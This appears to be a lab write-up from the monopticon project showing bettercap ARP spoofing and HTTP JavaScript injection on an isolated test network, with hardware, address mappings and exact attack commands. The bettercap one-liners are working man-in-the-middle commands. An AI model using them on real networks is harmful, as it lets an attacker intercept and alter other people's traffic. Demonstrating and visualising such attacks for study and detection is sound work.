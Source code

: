 Introduction
------------

The goal of this expirement is to demonstrate how `bettercap` can inject
javascript into http streams when performing a Man-in-The-Middle and how its
possibile to visually confirm the attack is working with `monopticon`.

The video posted to [Youtube](https://www.youtube.com/watch?v=nixfg6opr_M) describes the expirement well.
The injected javascript that changes the page is available [here](https://github.com/nskelsey/monopticon/master/src/expirements/arp-spoof/script.js).

Expiremental Setup
------------------
Inside of an isolated unmanaged network, an attacker performing an ARP spoofing
attack, man in the middles http requests to a website running on a device in the
local network.

- 1 Netgear Max GS724 24 port switch
- 2 Raspberry Pi 3 running Raspbian-Stretch v4.14
- 1 Lenovo T480 running Monopticon v0.2.0 and Bettercap v2.22
- 3 RJ45 0.5m cables

### Network Design

```
[ pi C ] [ pi B ] [ lenovo ]
   \        |         /
    \       |        /
     \      |       /
      \     |      /
    [ netgear switch ]
```


### Normal ARP Mappings
The addresses are shown below in the diagram if the network was properly configured.

```
10.0.0.1 00:50:b6:b7:2b:eb # Attacker
10.0.0.2 b8:27:eb:71:b2:3e # Bruno
10.0.0.3 b8:27:eb:71:0f:5d # Cocco
```

### Man in the Middle Machine

```zsh
> ip address add dev enp0s31f6 10.0.0.1/24

> sudo su
> /home/synnick/go/bin/bettercap -iface enp0s31f6 -eval 'net.recon on; http.proxy on; arp.spoof on; ticker on;'
```


### Manipulated ARP Tables

ARP Table of Bruno
```
10.0.0.3 00:50:b6:b7:2b:eb # Attacker
```

ARP Table of Cocco
```
10.0.0.2 00:50:b6:b7:2b:eb # Attacker
```


### Attack Results

As shown the once the Lenovo machine starts broadcasting IP addresses

![what it looks like](https://raw.githubusercontent.com/nskelsey/monopticon/master/contrib/screens/local-mitm.webm)

Appendix
--------
## Initial Setup

### Cocco
```zsh
> sudo apt install vim tmux nginx
# changed hostname
# enabled ssh
> enable sshd w/ password
> sudo vim /etc/dhcpdc.conf
# static 10.0.0.3
> wget -r https://soapbox.nskelsey.com --convert-links
> systemctl enable nginx
> cp -fr soapbox.nskelsey.com/* /var/www/html/
> arp -s 10.0.0.2 00:50:b6:b7:2b:eb
```

### Bruno
```zsh
> sudo apt install vim tmux
> enable sshd w/ password
# idem w/o nginx
> arp -s 10.0.0.3 00:50:b6:b7:2b:eb
```

### Attacker

During the attack execute:

```zsh
> cd /home/synnick/projects/monopticon/build
> ping -c5 10.0.0.2 &; ping -c5 10.0.0.3 &; ./bin/monopticon
> /home/synnick/go/bin/bettercap -eval 'net.recon on; set http.proxy.injectjs "/home/synnick/projects/monopticon/src/expirements/arp-spoof/script.js"; http.proxy on; arp.spoof on; ticker on;'
```
